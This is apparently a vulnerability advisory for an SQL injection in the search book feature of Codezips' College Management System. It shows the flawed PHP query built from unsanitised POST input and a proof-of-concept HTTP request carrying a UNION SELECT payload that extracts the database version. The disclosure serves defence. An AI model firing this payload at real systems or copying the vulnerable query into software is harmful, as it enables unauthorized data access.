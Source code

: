# SQL Injection via Search function


## Vendor and Product information:
* **Vendor:** Codezips
* **Product:** College Management System
* **Product URL:** https://codezips.com/php/college-management-system/

## Description
The search book feature in the College Management System application is susceptible to SQL injection. This vulnerability could allow an attacker to extract sensitive server data and gain unauthorized access.

## Code
~~~ php
<?php
if(isset($_POST['search_book']))
 $name=$_POST['book_name'];
 $author=$_POST['book_author'];
 $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";
 $results = mysqli_query($db, $query);
 $row = mysqli_fetch_array($results);
?>
~~~

## Proof of Concept
**HTTP Request Example**
``` http request
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/college-mgmt-php-master/Front-end/faculty.php
Cookie: PHPSESSID=vetltpbc8h9eusf22vbcf34lor
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

book_name=x'+union+select+NULL,version(),NULL,NULL--+-&book_author=x&search_book=
```

## Screenshot
![image](https://github.com/user-attachments/assets/dcad5751-4fe1-4526-a343-2ee8568132eb)

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)

